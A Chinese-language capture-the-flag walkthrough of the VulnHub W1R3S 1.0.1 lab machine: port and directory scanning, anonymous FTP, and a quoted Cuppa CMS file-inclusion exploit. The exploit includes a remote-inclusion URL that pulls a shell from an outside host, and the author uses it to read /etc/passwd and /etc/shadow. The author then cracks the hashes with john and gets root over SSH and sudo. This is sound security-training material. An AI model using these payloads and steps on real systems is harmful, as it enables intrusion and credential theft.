

# W1R3S1.0.1

## 介绍

您受雇在 W1R3S.inc 个人服务器上进行渗透测试并报告所有结果。他们要求您获得 root 访问权限并找到标志（位于 /root 目录中）。

关于： 这是一个易受攻击的 Ubuntu 盒子，为您提供了一些真实世界的场景，让我想起了 OSCP 实验室。

- **名称**：W1R3S：1.0.1
- **发布日期**： 5 Feb 2018
- **作者**： [SpecterWires](https://www.vulnhub.com/author/specterwires,572/)
- **系列**： [W1R3S](https://www.vulnhub.com/series/w1r3s,146/)

- **w1r3s.v1.0.1.zip** （大小： 3.6 GB）
- **下载**： https://drive.google.com/file/d/1sWJRjku9uNWS0f_Jul24LCQ2ZLucSG4X/view?usp=sharing
- **下载（镜像）：**https://download.vulnhub.com/w1r3s/w1r3s.v1.0.1.zip

## 打靶

## 信息收集

### 靶机确定

```shell
sudo nmap -sn 192.168.40.0/24
```

发现靶机ip：192.168.40.133

### 端口扫描

```sh
sudo nmap -sT --min-rate 10000 -p- 192.168.40.133 -oA nmapscan/ports

# Nmap 7.94SVN scan initiated Wed Mar 27 22:55:42 2024 as: nmap -sT -p- --min-rate 10000 -oA nmapscan/ports 192.168.40.133
Nmap scan report for 192.168.40.133
Host is up (0.00052s latency).
Not shown: 55528 filtered tcp ports (no-response), 10003 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 00:0C:29:5C:62:06 (VMware)
```

发现四个端口被开启，进行详细扫描

```shell
sudo nmap -sT -sV -sC -O -p21,22,80,3306 192.168.40.133 -oA nmapscan/detail
                                   
PORT     STATE SERVICE VERSION                                    
21/tcp   open  ftp     vsftpd 2.0.8 or later                      
| ftp-syst:                                                       
|   STAT:                                                         
| FTP server status:                                              
|      Connected to ::ffff:192.168.40.132                         
|      Logged in as ftp                                           
|      TYPE: ASCII                                                
|      No session bandwidth limit                                 
|      Session timeout in seconds is 300                          
|      Control connection is plain text                           
|      Data connections will be plain text                        
|      At session startup, client count was 3                     
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
3306/tcp open  mysql   MySQL (unauthorized)
MAC Address: 00:0C:29:5C:62:06 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (97%), Linux 3.2 - 4.9 (97%), Linux 5.1 (95%), Linux 3.13 - 3.16 (93%), Linux 4.10 (93%), Linux 3.4 - 3.10 (93%), Linux 3.10 (93%), Linux 4.4 (92%), Synology DiskStation Manager 5.2-5644 (92%), Linux 3.16 - 4.6 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.56 seconds
```

发现21端口ftp可以匿名登录，优先切入。22有可能可以爆破，80攻防中大概率是蜜罐，3306或许也可以爆破

同时进行UDP端口扫描，因为上面比较耗时

```
sudo nmap -sU --top-ports 20 192.168.40.133 -oA nmapscan/udp

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
MAC Address: 00:0C:29:5C:62:06 (VMware)
```

发现UDP全部都没开启，这条路断了。

### Nmap漏洞扫描

```
nmap --script=vuln -p21,22,80,3306 -oA nmapscan/vuln 192.168.40.133
```

```
# Nmap 7.94SVN scan initiated Fri Mar 29 01:08:22 2024 as: nmap --script=vuln -p21,22,80,3306 -oA nmapscan/vuln 192.168.40.133
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.40.133
Host is up (0.00059s latency).

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /wordpress/wp-login.php: Wordpress login page.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
3306/tcp open  mysql
MAC Address: 00:0C:29:5C:62:06 (VMware)

```

发现有wordpress

开始行动，ftp登录主机，空密码直接进入，里面有三个文件夹，把内容都下载出来

```
ftp 192.168.40.133  
Connected to 192.168.40.133.
220 Welcome to W1R3S.inc FTP service.
Name (192.168.40.133:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44256|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
```

所有内容：

```
└─$ cat nmapscan/*.txt     
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################
___________.__              __      __  ______________________   _________    .__               
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____  
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\ 
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___ 
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/ 
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources

        ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```

其他东西都没啥用，就员工列表有点用

```
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
```

### 目录扫描

```shell
sudo gobuster dir -u http://192.168.40.133 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
```

```

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.40.133
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.40.133/wordpress/]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.40.133/javascript/]
/administrator        (Status: 301) [Size: 324] [--> http://192.168.40.133/administrator/]
/server-status        (Status: 403) [Size: 302]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

访问http://192.168.40.133/administrator/ 有页面显示，点击下一步看看




发现是cuppa的CMS，去www.exploit-db.com搜索一下，有一个文件包含漏洞，去官网开开源码，发现用post提交请求就可以利用

```
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /          
  / XXXXXX /
 (________(            
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22: 
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------
    

#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream 

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcHJlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJtcDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZjsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7CgkJcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVfbG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+
-----------------------------------------------------------------------------

Base64 Decode Output:
-----------------------------------------------------------------------------
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "Db@dmin";
		public $table_prefix = "cu_";
		public $administrator_template = "default";
		public $list_limit = 25;
		public $token = "OBqIPqlFWf3X";
		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
		public $upload_default_path = "media/uploadsFiles";
		public $maximum_file_size = "5242880";
		public $secure_login = 0;
		public $secure_login_value = "";
		public $secure_login_redirect = "";
	} 
?>
-----------------------------------------------------------------------------

Able to read sensitive information via File Inclusion (PHP Stream)

################################################################################################################
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2 
################################################################################################################
```

burp拦截后改成post请求，发送得到passwd内容

```
       root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```

发现密码都是x存储在shadow，访问shadow

```
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
messagebus:*:17379:0:99999:7:::
uuidd:*:17379:0:99999:7:::
lightdm:*:17379:0:99999:7:::
whoopsie:*:17379:0:99999:7:::
avahi-autoipd:*:17379:0:99999:7:::
avahi:*:17379:0:99999:7:::
dnsmasq:*:17379:0:99999:7:::
colord:*:17379:0:99999:7:::
speech-dispatcher:!:17379:0:99999:7:::
hplip:*:17379:0:99999:7:::
kernoops:*:17379:0:99999:7:::
pulse:*:17379:0:99999:7:::
rtkit:*:17379:0:99999:7:::
saned:*:17379:0:99999:7:::
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

保留有用的信息：

```
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

保存到pass文件进行爆破

```
sudo john pass
```

```
www-data         (www-data)     
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
computer         (w1r3s)    
```

得到密码为computer尝试登录

```
sudo ssh w1r3s@192.168.40.133
```

```
he authenticity of host '192.168.40.133 (192.168.40.133)' can't be established.
ED25519 key fingerprint is SHA256:Bue5VbUKeMSJMQdicmcMPTCv6xvD7I+20Ki8Um8gcWM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '192.168.40.133' (ED25519) to the list of known hosts.
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@192.168.40.133's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

102 packages can be updated.
0 updates are security updates.

.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35
w1r3s@W1R3S:~$ whoami
w1r3s
w1r3s@W1R3S:~$ id
uid=1000(w1r3s) gid=1000(w1r3s) groups=1000(w1r3s),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
w1r3s@W1R3S:~$ uname -a
Linux W1R3S 4.13.0-36-generic #40~16.04.1-Ubuntu SMP Fri Feb 16 23:25:58 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
w1r3s@W1R3S:~$ sudo -l
[sudo] password for w1r3s: 
Matching Defaults entries for w1r3s on W1R3S.localdomain:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S.localdomain:
    (ALL : ALL) ALL
w1r3s@W1R3S:~$ sudo /bin/bash
root@W1R3S:~# whoami
root
root@W1R3S:~# id
uid=0(root) gid=0(root) groups=0(root)
root@W1R3S:~# ls
Desktop    Downloads         ftp    Pictures  Templates
Documents  examples.desktop  Music  Public    Videos
root@W1R3S:~# cd /root
root@W1R3S:/root# ls
flag.txt
root@W1R3S:/root# cat flag.txt 
-----------------------------------------------------------------------------------------
   ____ ___  _   _  ____ ____      _  _____ _   _ _        _  _____ ___ ___  _   _ ____  
  / ___/ _ \| \ | |/ ___|  _ \    / \|_   _| | | | |      / \|_   _|_ _/ _ \| \ | / ___| 
 | |  | | | |  \| | |  _| |_) |  / _ \ | | | | | | |     / _ \ | |  | | | | |  \| \___ \ 
 | |__| |_| | |\  | |_| |  _ <  / ___ \| | | |_| | |___ / ___ \| |  | | |_| | |\  |___) |
  \____\___/|_| \_|\____|_| \_\/_/   \_\_|  \___/|_____/_/   \_\_| |___\___/|_| \_|____/ 
                                                                                        
-----------------------------------------------------------------------------------------

                          .-----------------TTTT_-----_______
                        /''''''''''(______O] ----------____  \______/]_
     __...---'"""\_ --''   Q                               ___________@
 |'''                   ._   _______________=---------"""""""
 |                ..--''|   l L |_l   |
 |          ..--''      .  /-___j '   '
 |    ..--''           /  ,       '   '
 |--''                /           `    \
                      L__'         \    -
                                    -    '-.
                                     '.    /
                                       '-./

----------------------------------------------------------------------------------------
  YOU HAVE COMPLETED THE
               __      __  ______________________   _________
              /  \    /  \/_   \______   \_____  \ /   _____/
              \   \/\/   / |   ||       _/ _(__  < \_____  \ 
               \        /  |   ||    |   \/       \/        \
                \__/\  /   |___||____|_  /______  /_______  /.INC
                     \/                \/       \/        \/        CHALLENGE, V 1.0
----------------------------------------------------------------------------------------

CREATED BY SpecterWires

----------------------------------------------------------------------------------------

```

尝试提权发现已经有root权限，最终新起一个bash，cd到root，发现flag。

## 总结

第一条路：

目录扫描发现有个http://192.168.40.133/administrator/，点进去发现用的是cuppa的CMS，搜索发现有文件包含漏洞，通过该漏洞得到用户密码进行破解，最终getshell

第二条路：

nmap端口详细扫描发现21端口Anonymous FTP login allowed，匿名登录可以得到账户...
